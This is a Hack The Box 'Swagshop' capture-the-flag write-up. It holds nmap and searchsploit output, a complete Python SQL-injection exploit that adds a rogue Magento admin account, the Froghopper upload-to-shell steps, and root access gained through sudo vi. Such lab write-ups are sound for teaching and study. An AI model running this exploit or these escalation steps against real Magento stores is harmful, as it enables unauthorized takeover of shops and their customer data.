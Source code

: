 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: OSCP
tags: HTB
classes: wide
---
```

### Hack The Box - Swagshop

## Enumeration
Lets start by enumerating

#### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a Magento web app running on port 80. Let enumerate further
()
#### Directory Buster
`directory buster` found an admin login page


![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag1.png)

## Vulnerability

#### Searchsploit
```bash
root@kali:~# searchsploit magento
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
``` 
I had to try most of these to find the right one. The issue is a time based `sql injection`

[Exploit](https://www.exploit-db.com/exploits/37977)

## Exploitation
I modified the python script to correct the url and added a user named `joe123` with password `forme`

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES 
(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 And now we can login into the application.
## Usershell
For usershell I used a magento vulnerabillity known as `froghopper`

[Froghopper Attack](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)

To trigger this we have to complete a series of steps.
 
##### 1. Change the developer settings to allow `symlinks`
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag2.png)
 
 
 
 
##### 2. Now we have to upload a image file containing our php code. I uploaded it in the favicon option
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag3.png)
 
 
 
 
##### 3. Now we have to create create newsletter template with a reference to the image
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag4.png)
 
 
 
 
##### 4. Start a netcat listener and preview the template
 
 ![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag5.png)
 
 
 

And we have a shell
 
## Privilege Escalation

I copied the `LinuxEnum.sh` file to the machine and ran it and found some interesting output.
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

[+] Possible sudo pwnage!
/usr/bin/vi

```
So we can run `vim` as root. So lets try pwning using `vim`

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'
  
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
                   
```
We have a root shell. Pwned!
### Solved